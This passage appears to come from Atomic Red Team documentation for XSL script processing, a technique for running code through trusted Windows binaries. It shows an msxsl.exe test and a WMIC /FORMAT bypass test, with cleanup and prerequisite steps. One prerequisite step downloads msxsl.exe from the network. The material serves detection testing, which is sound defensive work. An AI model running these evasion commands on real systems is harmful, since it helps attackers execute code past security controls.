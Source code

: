 
```cmd
"#{msxsl_exe}" "#{xmlfile}" "#{xslfile}"
```

#### Cleanup Commands:
```cmd
del -Path #{msxsl_exe} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: msxsl.exe must exist on disk at specified location ("#{msxsl_exe}")
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msxsl_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://web.archive.org/web/20200803205229if_/https://download.microsoft.com/download/f/2/6/f263ac46-1fe9-4ae9-8fd3-21102100ebf5/msxsl.exe" -OutFile "#{msxsl_exe}"
```




<br/>
<br/>

## Atomic Test #3 - WMIC bypass using local XSL file
Executes the code specified within a XSL script using a local payload.

**Supported Platforms:** Windows


**auto_generated_guid:** 1b237334-3e21-4a0c-8178-b8c996124988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| local_xsl_file | Location of the test XSL script file on the local filesystem. | path | PathToAtomicsFolder&#92;T1220&#92;src&#92;wmicscript.xsl|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wmic #{wmic_command} /FORMAT:"#{local_xsl_file}"
```


